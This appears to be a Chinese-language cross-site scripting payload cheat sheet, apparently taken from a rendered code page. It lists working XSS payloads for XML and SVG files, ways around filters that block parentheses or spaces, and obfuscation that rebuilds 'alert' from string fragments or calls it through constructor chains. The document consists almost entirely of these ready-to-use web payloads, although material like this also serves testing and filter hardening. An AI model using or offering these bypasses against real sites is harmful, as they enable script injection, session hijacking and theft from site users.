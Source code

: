 

**在xml中**

```
<?xml version="1.0"?><a xmlns:a='http://www.w3.org/1999/xhtml'><a:body onload='alert(/XSS/)'></a>
<?xml version="1.0"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>alert(1);</html:script></html:html>
```



**svg**

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 751 751" enable-background="new 0 0 751 751" xml:space="preserve">  <image id="image0" width="751" height="751" x="0" y="0"

href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAu8AAALvCAIAAABa4bwGAAAAIGNIUk0AAHomAACAhAAA+gAAAIDo" />
<script>alert(1)</script>
</svg>
```



**当过滤了圆括号**

```
<script>alert`1`</script><video src onerror=a="%2",location="javascript:aler"+"t"+a+"81"+a+"9"><video src onerror="javascript:window.onerror=alert;throw 1">
```



**当过滤了空格**

```
假设payload如下： 
html><imgAAsrcAAonerrorBB=BBalertCC(1)DD</html>

A位置可填充/，/123/，%09，%0A，%0C，%0D，%20 
B位置可填充%09，%0A，%0C，%0D，%20 
C位置可填充%0B，如果加双引号，则可以填充/**/，%09，%0A ，%0C，%0D，%20 
D位置可填充%09，%0A，%0C，%0D，%20，//，>
```



**函数配合拼接**

```
<video/src/onerror=top.alert(1);>
<video/src/onerror=top[`al`+`ert`](1);>
<video/src/onerror=self[`al`+`ert`](1);>
<video/src/onerror=parent[`al`+`ert`](1);>
<video/src/onerror=window[`al`+`ert`](1);>
<video/src/onerror=frames[`al`+`ert`](1);>
<video/src/onerror=content[`al`+`ert`](1);>
<body/onload=eval(alert(1));>
<body/onload=eval(`al`+`ert(1)`);>
<body/onload=open(alert(1));>
<body/onload=document.write(alert(1));>
<body/onload=setTimeout(alert(1));>
<body/onload=setInterval(alert(1));>
<body/onload=Set.constructor(alert(1))()>
<body/onload=Map.constructor(alert(1))()>
<body/onload=Array.constructor(alert(1))()>
<body/onload=WeakSet.constructor(alert(1))()>
<body/onload=constructor.constructor(alert(1))>
<video/src/onerror=[1].map(alert);>
```